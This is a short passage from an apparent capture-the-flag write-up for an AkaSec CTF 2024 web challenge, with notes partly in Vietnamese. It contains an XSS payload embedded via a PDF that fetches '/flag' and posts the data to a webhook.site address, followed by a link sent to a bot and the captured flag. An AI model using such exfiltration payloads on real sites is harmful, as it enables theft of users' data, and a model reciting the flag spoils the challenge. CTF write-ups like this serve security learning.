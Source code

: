 fetch\('/flag'\).then\(response => { return response.json\(\); }\).then\(data => { fetch\('https://webhook.site/13599e56-a383-436d-8504-d3d87c24a8bb', {method: 'POST',mode: 'no-cors',body: JSON.stringify\(data\)}\) })
```

![338784010-d88295a7-c261-475d-9ad4-81e35717ab45](https://github.com/neo-M3tinez/akasec-ctf2024/assets/174318737/1c448760-e0ef-42f1-8f56-2229642eec8d)


=> send link http://127.0.0.1:5000/view/file-1718153210636.pdf

qua bot lên server fetch flag của địa chỉ đó

![338785519-8ab5a75f-fc57-4643-b476-43a83d7a5ef7](https://github.com/neo-M3tinez/akasec-ctf2024/assets/174318737/af9692a7-f8d6-4a2f-9671-412f37326949)


=> flag:AKASEC{PDF_1s_4w3s0m3_W1th_XSS_&&_Fr33_P4le5T1n3_r0t4t333d_loooool}
